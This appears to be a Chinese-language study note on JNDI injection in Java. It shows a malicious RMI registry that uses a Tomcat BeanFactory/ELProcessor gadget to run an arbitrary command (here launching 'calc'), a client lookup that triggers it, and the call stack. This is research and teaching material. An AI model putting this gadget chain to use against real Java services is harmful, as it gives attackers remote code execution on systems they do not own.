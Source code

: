 服务端代码参考自[这篇文章](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)

```java
package JNDI;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class jndi_sever_rmi_local {

    public static void main(String[] args) throws Exception{

        System.out.println("Creating evil RMI registry on port 1097");
        Registry registry = LocateRegistry.createRegistry(1097);

        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        ref.add(new StringRefAddr("forceString", "x=eval"));
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['calc']).start()\")"));

        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("Object", referenceWrapper);

    }
}
```

客户端

```java
package JNDI;

import javax.naming.InitialContext;

public class jndi_client_rmi_local {
    public static void main(String[] args) throws Exception{
        Object object=new InitialContext().lookup("rmi://127.0.0.1:1097/Object");
    }
}
```

##### 调用栈：

```java
getObjectInstance:123, BeanFactory (org.apache.naming.factory)
getObjectInstance:321, NamingManager (javax.naming.spi)
decodeObject:499, RegistryContext (com.sun.jndi.rmi.registry)
lookup:138, RegistryContext (com.sun.jndi.rmi.registry)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:417, InitialContext (javax.naming)
main:9, jndi_client_rmi_local (JNDI)
```

